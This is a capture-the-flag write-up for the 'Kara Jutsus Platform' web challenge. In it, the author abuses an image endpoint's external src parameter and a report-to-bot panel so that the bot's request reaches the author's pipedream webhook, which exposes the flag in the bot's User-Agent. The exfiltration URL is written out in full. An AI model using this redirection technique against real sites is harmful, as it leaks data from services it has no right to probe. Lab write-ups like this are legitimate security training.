 # Web - Kara Jutsus Platform (Unintended Solution)

## Challenge description:

![image](https://user-images.githubusercontent.com/70543460/209965346-78ea05c5-ad92-446a-935f-c74f146ae333.png)

## Quick Navigation:

- **[(1) Testing the web application](https://github.com/Cyb3rDoctor/YogoshaChristmasChallenge2022/blob/main/KaraJutsusPlatform.md#1-testing-the-web-application)**
- **[(2) Getting the flag](https://github.com/Cyb3rDoctor/YogoshaChristmasChallenge2022/blob/main/KaraJutsusPlatform.md#2-getting-the-flag)**

## Solution:

### (1) Testing the web application:

First, I started with testing the functionality of the web application:

The first part of the web application is used to view some Jutsu images:

![image](https://user-images.githubusercontent.com/70543460/209966222-ee42263f-f2ba-4378-a269-e4c2ecc5f51a.png)

![image](https://user-images.githubusercontent.com/70543460/209966849-59bae41c-5d8b-4b4d-9499-64a57e63c638.png)

I also tried viewing an external image and I was able to that:
```
http://54.205.207.242/index.php?src=https://i.kym-cdn.com/entries/icons/original/000/026/489/crying.jpg
```

![image](https://user-images.githubusercontent.com/70543460/209968731-707fc713-81d8-47d0-9e55-9f5ddfc1dfcb.png)


Quick Note:
Here is the meaning of "Jutsu": 😆

![image](https://user-images.githubusercontent.com/70543460/209966654-ec111b30-1827-4736-92bf-c0007e708303.png)

<br/>

The second part of the web application was "Report To Amado" panel, and that's where you can enter a url to report:

![image](https://user-images.githubusercontent.com/70543460/209967024-ca51287e-71c4-4f25-b798-e9725e907e31.png)

![image](https://user-images.githubusercontent.com/70543460/209967190-f90c78d4-522f-407a-b28d-19474b804a57.png)

I entered the URL of a webhook to test the functionality of "Report To Amado" panel:

![image](https://user-images.githubusercontent.com/70543460/209967352-73894ed6-9ef1-4db3-ba5c-f0cb2b63bff5.png)

And I got the following request:

![image](https://user-images.githubusercontent.com/70543460/209967687-a655ac90-c39f-4430-aa8d-115259ee3378.png)

----------

### (2) Getting the flag:

According to the description, the flag is the User-Agent of the bot, but it only appears when I report a link starting with ```http://54.205.207.242```, so I tried reporting the following URL:

```
http://54.205.207.242/index.php?src=https://eoa28qm3szvm2q9.m.pipedream.net
```

Noting that ```https://eoa28qm3szvm2q9.m.pipedream.net``` is my webhook.

![image](https://user-images.githubusercontent.com/70543460/209968034-23dddaf6-44c2-47a7-8e78-1a6202743bee.png)

<br/>

Bingo! I got the flag:

![flag](https://user-images.githubusercontent.com/70543460/209968154-b825033c-ddf8-493c-b421-97d14a10ac30.png)
